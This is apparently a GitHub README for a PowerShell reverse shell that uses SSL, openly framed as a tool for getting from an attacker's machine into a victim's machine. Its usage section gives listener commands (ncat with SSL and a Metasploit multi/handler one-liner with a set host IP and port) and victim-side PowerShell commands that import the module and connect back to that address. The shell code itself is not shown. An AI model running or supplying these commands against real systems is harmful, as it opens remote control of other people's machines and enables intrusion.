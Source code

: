 # PowerShell-SSL-ReverseShell
This is a reverse shell written in PowerShell that uses SSL communications between the attacker's machine and the victim's machine. Made with inspiration from [samratashok/nishang Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and [PowerShell-reverse-shell](https://github.com/martinsohn/PowerShell-reverse-shell)


## Usage

### Attacker Machine

- #### Ncat
```bash 

❯ ncat --ssl -lnvp 4646

```

- #### Metasploit
```bash 

❯ msfconsole -x "use multi/handler;set payload windows/powershell_reverse_tcp_ssl; set lhost 192.168.254.226; set lport 4646; set ExitOnSession false; exploit -j"

```


### Victim Machine
```powershell 

PS > Import-Module .\GetShellSSL

PS > GetShellSSL -Reverse -IPAddress 192.168.254.226 -Port 4646

```

#### Demonstration
![]()